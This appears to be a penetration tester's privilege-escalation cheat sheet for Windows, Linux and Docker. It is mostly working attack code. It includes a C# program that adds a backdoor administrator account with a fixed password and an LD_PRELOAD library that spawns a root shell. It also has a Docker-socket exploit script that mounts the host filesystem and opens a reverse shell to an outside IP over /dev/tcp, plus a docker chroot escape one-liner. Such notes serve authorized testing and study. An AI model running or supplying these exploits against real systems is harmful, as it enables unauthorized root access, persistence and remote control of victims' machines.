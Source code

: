 # Windows
## Privilege Escalation Scripts
- [PrivescCheck [20220608]](https://github.com/itm4n/PrivescCheck)
- [Windows Privilege Escalation Awesome Scripts [20220501]](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

## Add a user to the local system - C#
- [Add a user to the local system - C#](https://docs.microsoft.com/en-us/troubleshoot/developer/visualstudio/csharp/language-compilers/add-user-local-system)
```csharp
// "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe" /target:exe /r:"C:\Windows\Microsoft.NET\Framework\v4.0.30319\System.DirectoryServices.dll" Program.cs

using System;
using System.DirectoryServices;

class Class1
{
    static void Main(string[] args)
    {
        try
        {
            DirectoryEntry AD = new DirectoryEntry("WinNTc://" +
            Environment.MachineName + ",computer");
            DirectoryEntry NewUser = AD.Children.Add("admin", "user");
            NewUser.Invoke("SetPassword", new object[] {"#12345Abc"});
            NewUser.Invoke("Put", new object[] {"Description", "Test User from .NET"});
            NewUser.CommitChanges();
            DirectoryEntry grp;

            grp = AD.Children.Find("Administrators", "group");
            if (grp != null) {grp.Invoke("Add", new object[] {NewUser.Path.ToString()});}
            Console.WriteLine("Account Created Successfully");
            Console.ReadLine();
        }
        catch (Exception ex)
        {
            Console.WriteLine(ex.Message);
            Console.ReadLine();
        }
    }
}
```

## Unquoted Service Paths

### WMIC
```batchfile
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

### PowerShell
```powershell
$result = $null
$result = Get-WmiObject win32_service | Where-Object {($_.PathName -like '* *') -and ($_.PathName -notlike '*"*') -and ($_.PathName -notlike '*C:\Windows*')} | ForEach-Object { Write $_.PathName }
if ($result -ne $null) { Write $result | Sort -Unique } else { Write "Weak services were not found." }
```

### Specific service
```batchfile
sc qc "<service name>"
```

# Linux
## LD_PRELOAD
```c
// gcc -fPIC -shared -o shell.so shell.c -nostartfiles
// sudo LD_PRELOAD=/tmp/shell.so <suid_elf_or_scrip>
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/usr/bin/bash");
}
```

## [pspy - unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy)

```sh
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 

# place watchers recursively in two directories and non-recursively into a third
./pspy64 -r /path/to/first/recursive/dir -r /path/to/second/recursive/dir -d /path/to/the/non-recursive/dir

# disable printing discovered commands but enable file system events
./pspy64 -p=false -f
```

# Docker
## [exploit-docker-sock.sh](https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25)
```sh
#!/bin/bash

# you can see images availables with
# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
# here we have sandbox:latest

# command executed when container is started
# change dir to tmp where the root fs is mount and execute reverse shell

cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i &>/dev/tcp/10.10.14.30/12348 0<&1'\\\"\"]"

# create the container and execute command, bind the root filesystem to it, name the container peterpwn_root and execute as detached (-d)
curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$cmd,\"Binds\":[\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=peterpwn_root

# start the container
curl -s -X POST --unix-socket /var/run/docker.sock "http://localhost/containers/peterpwn_root/start"
```

## [GTFOBins](https://gtfobins.github.io/gtfobins/docker/)
```sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## Finding some interesting ports
```sh
grep -R "<port>" </opt>
```

